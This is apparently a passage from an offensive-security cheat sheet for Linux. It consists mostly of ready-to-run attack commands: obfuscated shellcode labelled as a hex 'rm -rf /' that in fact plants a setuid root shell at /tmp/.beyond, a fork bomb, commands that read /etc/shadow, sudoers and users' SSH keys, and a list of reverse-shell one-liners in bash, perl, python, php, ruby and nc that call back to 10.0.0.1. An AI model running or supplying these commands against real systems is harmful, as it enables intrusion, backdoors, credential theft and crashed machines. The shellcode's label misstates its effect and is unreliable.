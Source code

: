 * Hex version of rm -rf / *(How is this supposed to work?)*  
> char esp[] \_\_attribute\_\_ ((section(”.text”))) /* e.s.p release */ = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68\"  
> “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99\"  
> “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7\"  
> “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"  
> “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"  
> “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"  
> “\x6e\x2f\x73\x68\x00\x2d\x63\x00"  
> “cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;  

* **Fork Bomb**: The [in]famous "fork bomb". This command will cause your system to run a large number of processes, until it "hangs". This can often lead to data loss (e.g. if the user brutally reboots, or the OOM killer kills a process with unsaved work). If left alone for enough time a system can eventually recover from a fork bomb.  

> :(){:|:&};:




<a name="escalating"/><a>
## Escalating

<a name="paths"/><a>
### Looking for possible opened paths
* ls -alh /root/
* sudo -l
* cat /etc/sudoers
* cat /etc/shadow
* cat /etc/master.passwd # OpenBSD
* cat /var/spool/cron/crontabs/* | cat /var/spool/cron/*
* lsof -nPi
* ls /home/\*/.ssh/*

<a name="maintain"/><a>
## Maintaining control

<a name="rev_shell"/><a>
### Reverse Shell
Starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 (No /dev/tcp on older Debians, but use nc, socat, TCL, awk or any interpreter like Python, and so on.).
* perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
* python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
* php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
* ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
* xterm -display 10.0.0.1:1se	
* Listener- Xnest :1
* Add permission to connect- xhost +victimIP
* ssh -NR 3333:localhost:22 user@yourhost
* nc -e /bin/sh 10.0.0.1 1234
